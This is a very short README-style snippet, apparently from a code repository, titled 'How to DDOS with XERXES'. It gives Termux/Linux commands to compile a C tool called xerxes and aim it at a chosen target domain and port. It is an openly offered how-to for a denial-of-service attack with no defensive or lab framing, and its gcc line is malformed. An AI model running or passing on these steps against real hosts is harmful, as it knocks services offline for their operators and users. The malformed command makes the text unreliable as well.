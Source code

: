# How to DDOS with XERXES
# In Android System 5.0 > 
# Using Termux or Command Prompt Linux only

> cd ddos_xerxes

> gcc xerxes.c +x xerxes

> ./xerxes <target.com> <port>
